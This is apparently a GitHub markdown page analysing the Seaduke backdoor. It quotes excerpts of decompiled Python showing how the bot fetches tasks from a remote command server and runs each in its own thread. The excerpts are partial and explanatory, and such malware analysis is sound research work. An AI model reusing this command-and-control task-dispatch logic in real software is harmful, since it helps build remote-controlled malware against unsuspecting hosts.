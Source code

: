 # putting tasks on `threadStuffKlass`
after the bot [fetches instructions](https://github.com/mynameisvinn/Seaduke/blob/master/fetch.md) from a remote server and [decodes it](https://github.com/mynameisvinn/Seaduke/blob/master/decode.md), the bot executes instructions by placing tasks on `threadStuffKlass`. 

```python
def seh_wrapper():  # https://github.com/pan-unit42/iocs/blob/29cfa76babf29d1eb754a1706526b5aa97d4607b/seaduke/decompiled.py#L2251
    ...
    try:
        main()
    except KeyboardInterrupt as ki:
        sys_exit(0)


def main():  # https://github.com/pan-unit42/iocs/blob/29cfa76babf29d1eb754a1706526b5aa97d4607b/seaduke/decompiled.py#L2183
    ...
    while 1:
        ...
        networkTasks = networkHandleKlass.get_tasks()  # returns a list of dict
        ...
        if networkTasks:
            for networkTask in networkTasks:
                taskID = networkTask.get('task_id', None)
                taskData=networkTask.get('task_data', None)
                if taskID and taskData:
                    if not threadStuffKlass.have_task(taskID):
                        try:
                            threadStuffKlass.put(taskID,taskData)  # this is the money shot
                            botKlass.reset_tick_count()
    ...
```
## so, what is `threadStuffKlass`?
`threadstuffKlass` is an instance of `DoingThreadStuffKlass` created by `main()`:
```python
def main():
    threadStuffKlass=DoingThreadStuffKlass()  # https://github.com/pan-unit42/iocs/blob/29cfa76babf29d1eb754a1706526b5aa97d4607b/seaduke/decompiled.py#L2184
```
lets look at `DoingThreadStuffKlass`:
```python
class DoingThreadStuffKlass(object):

    def __init__(self):
        self.threads={}

    def put(self,taskID,taskData):
        foo = ttt(taskID, taskData, on_complete=self.on_thread_complete)
        foo.daemon=True
        self.threads[taskID] = foo
        foo.start()


class ttt(threading_thread):

    def __init__(self,taskID,taskData,**pSsWAYdKJqgPHbRoVCwjkvMcmtuxInGEhaFfLBXUOrNlTzDeiQ):
        self.task_id=taskID
        self.task_data=taskData
        self.on_complete=pSsWAYdKJqgPHbRoVCwjkvMcmtuxInGEhaFfLBXUOrNlTzDeiQ.get('on_complete',None)
        self.network_handler=NetworkHandlerKlass()
        threading_thread.__init__(self)
        self.processor=pSsWAYdKJqgPHbRoVCwjkvMcmtuxInGEhaFfLBXUOrNlTyzDeQ()
```
so there we have it, seaduke fetches instructions from a remote server and does something on host with multithreading.